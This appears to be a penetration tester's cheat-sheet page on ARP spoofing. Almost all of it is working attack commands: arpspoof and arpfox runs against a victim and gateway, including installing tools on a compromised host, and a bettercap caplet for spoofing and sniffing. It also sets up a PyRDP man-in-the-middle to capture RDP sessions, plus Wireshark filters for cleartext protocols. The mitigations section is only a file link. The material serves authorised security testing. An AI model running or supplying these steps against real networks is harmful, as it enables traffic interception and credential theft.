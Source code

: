 ```yaml
---
description: Address Resolution Protocol
---
```


# ARP Spoofing

- [https://idafchev.github.io/pentest/2019/10/28/combining_arp_poisoning_and_ip_spoofing_to_bypass_firewalls.html](https://idafchev.github.io/pentest/2019/10/28/combining_arp_poisoning_and_ip_spoofing_to_bypass_firewalls.html)
- [https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/arp-poisoning](https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/arp-poisoning)

Enable IP forwarding:

```
$ sudo sysctl -w net.ipv4.ip_forward=1
(sudo sh -c 'echo 1 > /proc/sys/net/ipv4/ip_forward')
(edit /etc/sysctl.conf "net.ipv4.ip_forward = 1" to make it permanent)
```




## arpspoof (dsniff)

* [https://github.com/tecknicaltom/dsniff](https://github.com/tecknicaltom/dsniff)
* [https://github.com/GregHoff/dsniff](https://github.com/GregHoff/dsniff)

Install:

```
$ sudo apt install dsniff -y
```

Fire up the attack with Wireshark (filter `ip.src == VICTIM_10.0.0.5`) running:

```
$ sudo arpspoof [-i eth0] [-c both] -t VICTIM_10.0.0.5 GATEWAY_10.0.0.1 [-r]
```

![arpspoof Output Disassembled](/.gitbook/assets/009.png)

{% hint style="hint" %}
Wireshark filter while ARP spoofing:

```
(http || ftp || smb || smb2 || ldap) && ip.src == VICTIM_10.0.0.5
```
{% endhint %}



### Portable

* [https://github.com/byt3bl33d3r/arpspoof](https://github.com/byt3bl33d3r/arpspoof)
* [https://github.com/malfunkt/arpfox](https://github.com/malfunkt/arpfox)

As a portable alternative one may use the Python port of arpspoof compiled with PyInstaller:

```
$ sudo apt install virtualenv
$ pip install pyinstaller=3.5
$ git clone https://github.com/byt3bl33d3r/arpspoof
$ cd arpspoof
$ virtualenv -p `which python2` venv
$ . venv/bin/activate
$ pip install -r requirements.txt
$ pyinstaller --onefile --paths venv/lib/python2.7/site-packages arpspoof/arpspoof.py
$ file dist/arpspoof
```

Another approach is to download Python dependencies locally and install them on a compromised Linux host:

```
Dev$ pip download --no-binary=:all: -r requirements.txt
Compromised$ python -m pip install --no-index --find-links . -r requirements.txt
```

If you need to launch ARP spoofing on another distro (CentOS, for example), then installing OS dependencies and using a portable binary may be easier:

```
Dev$ mkdir /tmp/tcpdump && yum install --downloadonly --downloaddir=/tmp/tcpdump tcpdump
Dev$ ls /tmp/tcpdump
libpcap-1.5.3-12.el7.x86_64.rpm  tcpdump-4.9.2-4.el7_7.1.x86_64.rpm

Compromised$ rpm -i libpcap*.rpm tcpdump*.rpm
Compromised$ tcpdump -nvv -i eth0 -s 65535 -w arpfox.pcap "src host VICTIM_10.0.0.5"
Compromised$ ./arpfox -l
Compromised$ ./arpfox -i eth0 -t VICTIM_10.0.0.5 GATEWAY_10.0.0.1
```




## bettercap

* [https://github.com/bettercap/bettercap](https://github.com/bettercap/bettercap)
* [https://www.bettercap.org/modules/](https://www.bettercap.org/modules/)
* [https://linuxhint.com/install-bettercap-on-ubuntu-18-04-and-use-the-events-stream/](https://linuxhint.com/install-bettercap-on-ubuntu-18-04-and-use-the-events-stream/)
* [https://hackernoon.com/man-in-the-middle-attack-using-bettercap-framework-hd783wzy](https://hackernoon.com/man-in-the-middle-attack-using-bettercap-framework-hd783wzy)
* [https://www.cyberpunk.rs/bettercap-usage-examples-overview-custom-setup-caplets](https://www.cyberpunk.rs/bettercap-usage-examples-overview-custom-setup-caplets)

Deb dependencies (Ubuntu 18.04 LTS):

* [libpcap0.8_1.8.1-6ubuntu1_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-main-amd64/libpcap0.8_1.8.1-6ubuntu1_amd64.deb.html)
* [libpcap0.8-dev_1.8.1-6ubuntu1_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-main-amd64/libpcap0.8-dev_1.8.1-6ubuntu1_amd64.deb.html)
* [libpcap-dev_1.8.1-6ubuntu1_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-main-amd64/libpcap-dev_1.8.1-6ubuntu1_amd64.deb.html)
* [pkg-config_0.29.1-0ubuntu2_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-main-amd64/pkg-config_0.29.1-0ubuntu2_amd64.deb.html)
* [libnetfilter-queue1_1.0.2-2_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-universe-amd64/libnetfilter-queue1_1.0.2-2_amd64.deb.html)
* [libnfnetlink-dev_1.0.1-3_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-main-amd64/libnfnetlink-dev_1.0.1-3_amd64.deb.html)
* [libnetfilter-queue-dev_1.0.2-2_amd64.deb](https://ubuntu.pkgs.org/18.04/ubuntu-universe-amd64/libnetfilter-queue-dev_1.0.2-2_amd64.deb.html)

Attack:

```
$ sudo ./bettercap --iface eth0 --caplet arpspoof.cap
```

{% code title="arpspoof.cap" %}
```bash
# Quick recon of the network
net.probe on

# Set the ARP spoofing
set arp.spoof.targets $CLIENT_IP
set arp.spoof.internal false
set arp.spoof.fullduplex false

# Control logging and verbosity
events.ignore endpoint
events.ignore net.sniff

# Start the modules
arp.spoof on
net.sniff on
```
{% endcode %}



### PyRDP

- [https://github.com/GoSecure/pyrdp](https://github.com/GoSecure/pyrdp)
- [https://github.com/GoSecure/pyrdp/blob/master/docs/bettercap-rdp-mitm.md](https://github.com/GoSecure/pyrdp/blob/master/docs/bettercap-rdp-mitm.md)
- [https://github.com/GoSecure/caplets/blob/master/rdp-proxy/rdp-sniffer.cap](https://github.com/GoSecure/caplets/blob/master/rdp-proxy/rdp-sniffer.cap)

Install PyRDP:

```
$ sudo apt update
$ sudo apt install python3 python3-pip python3-dev python3-setuptools python3-venv build-essential python3-dev git openssl libgl1-mesa-glx libnotify-bin libxkbcommon-x11-0 libxcb-xinerama0 libavformat-dev libavcodec-dev libavdevice-dev libavutil-dev libswscale-dev libswresample-dev libavfilter-dev -y
$ git clone https://github.com/gosecure/pyrdp ~/tools/pyrdp && cd ~/tools/pyrdp
$ python3 -m venv venv && source venv/bin/activate
$ pip install -U pip setuptools wheel
$ pip install -U -e '.[full]'
```

Compile bettercap [from fork](https://github.com/GoSecure/bettercap):

```
$ sudo apt install build-essential libpcap-dev libusb-1.0-0-dev libnetfilter-queue-dev -y
$ mkdir -p $GOPATH/src/github.com/bettercap && cd $GOPATH/src/github.com/bettercap
$ git clone https://github.com/GoSecure/bettercap -b rdp-mitm --single-branch && cd bettercap
$ go mod init && go mod tidy && go get && go mod vendor && go build
```

Run the attack hoping that the RDP client `192.168.1.3` will connect to the RDP server `192.168.1.2` with NLA disabled:

```
$ curl -sSL https://github.com/GoSecure/caplets/raw/master/rdp-proxy/rdp-sniffer.cap -o rdp-sniffer.cap
$ pyrdp-player.py -p 3000
$ sudo ./bettercap -iface eth0 -caplet rdp-sniffer.cap -eval "set arp.spoof.targets 192.168.1.2, 192.168.1.3; set rdp.proxy.targets 192.168.1.2; set rdp.proxy.player.ip 127.0.0.1; set rdp.proxy.replay true; set rdp.proxy.command `which pyrdp-mitm.py`"
$ sudo arpspoof -i eth0 -t 192.168.1.3 192.168.1.2 -r
```




## Mitigations

Mitigating ARP spoofing:

{% file src="/.gitbook/assets/Ruijie Anti-ARP Spoofing Technical White Paper.pdf" %}
